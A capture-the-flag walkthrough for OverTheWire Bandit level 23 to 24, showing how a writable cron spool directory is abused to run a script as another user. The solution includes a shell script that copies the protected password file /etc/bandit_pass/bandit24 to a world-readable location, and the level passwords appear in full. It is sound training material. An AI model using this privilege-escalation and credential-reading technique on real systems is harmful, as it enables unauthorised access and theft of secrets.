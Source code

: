 ```yaml
---
title: OverTheWire Bandit Level 23 - 24
description: OverTheWire Bandit Level 23 - 24 challenge
date: 2022-07-29T06:00:00
tags: [OverTheWire, Bandit, Linux, shell]
---
```

# Prompt
> A program is running automatically at regular intervals from `cron`, the time-based job scheduler. Look in `/etc/cron.d/` for the configuration and see what command is being executed.

# Solution
```sh
$ ssh bandit23@bandit.labs.overthewire.org -p 2220
bandit23@bandit.labs.overthewire.org password: jc1udXuA1tiHqjIsL8yaapX5XIAI6i0n
bandit23@bandit:~$ ls /etc/cron.d/
cronjob_bandit15_root cronjob_bandit17_root cronjob_bandit22 cronjob_bandit23 cronjob_bandit24 cronjob_bandit25_root
bandit23@bandit:~$ cat /etc/cron.d/cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
bandit23@bandit:~$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash
myname=$(whoami)
cd /var/spool/$myname
echo "Executing and deleting all scripts in /var/spool/$myname:"
for i in * .*; do
	if [ "$i" != "." -a "$i" != ".." ]; then
		echo "Handling $i"
		owner="$(stat --format "%U" ./$i)"
		if [ "${owner}" = "bandit23" ]; then
			timeout -s 9 60 ./$i
		fi
		rm -f ./$i
	fi
done
bandit23@bandit:~$ ls -l /var/spool/
drwxrwx-wx 25 root bandit24 659456 Jul 29 04:32 bandit24
bandit23@bandit:~$ mkdir /tmp/bandit23
bandit23@bandit:~$ chmod 777 /tmp/bandit23
bandit23@bandit:~$ touch /tmp/bandit23/bandit24.txt
bandit23@bandit:~$ chmod a+rwx /tmp/bandit23/bandit24.txt
bandit23@bandit:~$ printf '#!/bin/bash\ncat /etc/bandit_pass/bandit24 > /tmp/bandit23/bandit24.txt\n' > /tmp/bandit23/bandit23.sh
bandit23@bandit:~$ chmod +rx /tmp/bandit23/bandit23.sh
bandit23@bandit:~$ cp /tmp/bandit23/bandit23.sh /var/spool/bandit24
# wait for a minute
bandit23@bandit:~$ cat /tmp/bandit23/bandit24.txt
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
```

# References
* MayADevBe. (2022, May 24). OverTheWire Bandit Level 23 - 24. MayADevBe. <https://mayadevbe.me/posts/overthewire/bandit/level24/>
* <https://crontab.guru/#*_*_*_*_*>